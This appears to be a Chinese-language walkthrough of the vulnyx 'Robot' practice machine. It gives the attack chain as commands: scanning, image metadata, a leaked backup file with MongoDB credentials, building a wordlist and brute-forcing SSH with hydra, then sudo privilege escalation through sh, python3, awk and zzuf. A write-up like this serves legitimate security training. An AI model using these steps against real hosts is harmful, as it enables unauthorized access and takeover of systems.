

# 环境

来自[vulnyx_Robot](https://vulnyx.com/#Robot)，图片隐写，获取网站泄露备份文件，获取mongo连接账号，拿到关键信息生成字典爆破密码

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```


## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.39
```


## 目录扫描

```bash
dirb http://192.168.88.39
```


没有结果，发现只有一张图片

# web渗透

## 图片分析

```bash
exiftool image.jpg
```


发现可疑路径，类似备份目录

## 目录扫描

```bash
dirb http://192.168.88.39 -X.bak  #扫描指定后缀文件
```


查看文件http://192.168.88.39/B4ckUp_3LLi0t/connect.bak


发现mongo的账号和密码，目标开放mongo端口`27017`

## 连接mongo

使用Navicat连接


或者安装mongo命令行工具

```bash
sudo apt install mongodb-client
mongo --host 192.168.88.39 -u mongo -p m0ng0P4zz elliot
show dbs
db.elliot.find()
```

有用信息


## 生成字典

```bash
cupp -i
```


## 爆破ssh

```bash
hydra -l elliot -P elliot.txt ssh://192.168.88.39
密码:toillE71986
toillE71986
```



## 提权

```bash
ssh elliot@192.168.88.39
sudo -l
sudo -u darlene /usr/bin/sh
```


python3提权

```bash
sudo -l
sudo -u angela /usr/bin/python3 -c "import os;os.system('/bin/bash')"
```


awk提权

```bash
sudo -l
sudo -u tyrell /usr/bin/awk 'BEGIN{system("/bin/bash")'
```


zuff提权

```bash
sudo -l
sudo -u root /usr/bin/zzuf bash
```


